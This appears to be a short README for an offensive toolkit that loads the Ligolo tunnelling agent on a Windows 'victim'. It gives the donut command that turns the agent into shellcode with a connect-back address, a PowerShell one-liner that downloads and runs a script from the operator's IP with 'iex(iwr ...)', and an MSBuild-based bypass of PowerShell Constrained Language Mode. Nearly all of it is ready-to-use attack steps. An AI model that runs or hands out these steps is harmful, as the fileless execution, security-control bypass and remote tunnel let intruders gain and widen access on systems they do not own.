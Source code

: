 ## Powershell Shellcode Runner 
1. Make sure to convert `agent.exe` of Ligolo to shellcode:

- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

2. Make sure you are running as x64 bit process before running: 

Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

3. Inside `ligolo.ps1`, make sure to update line 14 (`$url = "http://192.168.45.168/agent.bin"`) to point to your machine IP address before invoking it.

4. make sure both `ligolo.ps1` and `agent.bin` in the same directory, then serve them by simply using python server.

5. Invoke the script:
- `iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)`

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
